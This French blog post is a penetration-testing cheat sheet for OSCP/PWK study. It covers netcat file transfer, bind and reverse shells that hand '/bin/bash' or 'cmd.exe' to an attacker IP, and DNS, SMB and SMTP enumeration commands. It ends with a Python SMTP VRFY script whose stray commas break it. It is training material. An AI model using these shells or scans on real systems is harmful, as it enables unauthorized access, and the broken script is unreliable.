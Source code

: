 ```yaml
---
layout: post
title: Cheatsheet - PWK Essentials
subtitle: Résumé PWK - OSCP 
gh-repo: 0xSs0rZ/0xSs0rZ.github.io
gh-badge: [star]
tags: [Cheat sheet, PWK, OSCP, Netcat, Find, Locate, Which, SSH, Apache, Ncat, Transfert fichier, Bind shell, Reverse shell, theharvester, DNS, DNS enumeration, DNS zone transfer, DNSRecon, SMB, SMB enumeration, nbtscan, enum4linux, SMTP enumeration, SMTP, Python, socket, Nmap,  Commandes, Linux, Windows]
comments: false
---
```


**Résumé du PWK - OSCP**

# Locate

~~~
root@Host-001:~# locate rockyou.txt
/root/Bureau/SecLists/Passwords/Leaked-Databases/rockyou.txt.tar.gz
/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt.tar.gz
/usr/share/wordlists/rockyou.txt
~~~

# Which 

~~~
root@Host-001:~# which python
/usr/bin/python
~~~

# Find 

~~~
root@Host-001:~# find /root -name mimikatz.exe
/root/Bureau/mimikatz.exe
~~~

# SSH

Lancer le service: service ssh start
Verifier que le service est en cours: netstat -antp | grep sshd
Forcer le lancement du service lors du démarrage: update-rc.d ssh enable

# Apache

Lancer le service: service apache2 start
Verifier que le service est en cours: netstat -antp | grep apache
Forcer le lancement du service lors du démarrage: update-rc.d apache2 enable

# Bash

# Netcat

1. Transfert de fichier

Machine réceptrice:

~~~
nc -nlvp PORT ­> file
~~~

Machine émettrice:

~~~
nc -nv IP PORT < file_to_send
~~~

2. Bind shell

Machine cible:

~~~
// Windows
nc -nlvp PORT -e cmd.exe
// Linux
nc -nlvp PORT -e /bin/bash
~~~

Attaquant:

~~~
nc -nv IP_CIBLE PORT
~~~

3. Reverse shell

Attaquant:

~~~
nc -nlvp PORT
~~~

Cible:

~~~
nc -nv IP_ATTAQUANT PORT -e /bin/bash
~~~

# theharvester

theharvester est un outil pour trouver des email durant la phase de reconnaissance

~~~
root@kali:~# theharvester -d cisco.com -b google >google.txt
~~~

# DNS server enumeration

~~~
host -t ns domainname.com
~~~

# Mail server enumeration

~~~
host -t mx domainename.com
~~~

# DNS zone transfert

~~~
//host -l <domain name> <dns server address>
host -l domainname.com ns1.domainname.com

//Avec Nmap
nmap --script=dns-zone-tranfer -p 53 ns1.domainename.com
~~~

# DNSRecon

~~~
dnsrecon -d domainname.com -t axfr
~~~

# Nmap

~~~
//Pour trouver les hotes d'un réseau en complément de netdiscover
nmap -v -sn IP_DEBUT-IP_FIN
~~~

-oG : pour enregistrer dans un fichier 'grep'able
-O : version de l'OS

~~~
//HTB Style
nmap -sC -sV IP
~~~

~~~
//Scan SMB - ports SMB NetBIOS 139 et 445
nmap -v -p 139,445 IP_DEBUT-IP FIN
~~~

~~~
// Script pour détecter l'OS
nmap IP --script smb-os-discovery.nse
~~~

# SMB enumeration

~~~
//nbtscan
nbtscan -r 192.168.1.0/24

//enum4linux
enum4linux -a IP

//scripts nmap
ls -la /usr/share/nmap/scripts/smb*

//check for known SMB protocol vulnerabilities
nmap -v -p 139,445 --script=smb-check-vulns --script-args=unsafe=1 IP
~~~

# SMTP Enumeration

~~~
//Port ouvert ?
nc -nv IP 25
// si ouvert verifier si bob exist
VRFY bob
~~~

Script vrfy.py:

~~~
#!/usr/bin/python
import socket
import sys
if len(sys.argv) != 2:,
	print "Usage: vrfy.py <username>",
	sys.exit(0)
	
# Create a Socket 
s=socket.socket(socket.AF_INET,,socket.SOCK_STREAM),

# Connect to the Server
connect=s.connect(('192.168.11.215',25))

# Receive the banner
banner=s.recv(1024)
print banner 

# VRFY a user
s.send('VRFY ' + sys.argv[1] + '\r\n')
result=s.recv(1024)
print result

# Close the socket
s.close()
~~~

[![CC-BY](https://mirrors.creativecommons.org/presskit/buttons/88x31/svg/by.svg)](https://creativecommons.org/licenses/by/4.0/)

This work is licensed under a [Creative Commons Attribution 4.0 International License](https://creativecommons.org/licenses/by/4.0/).

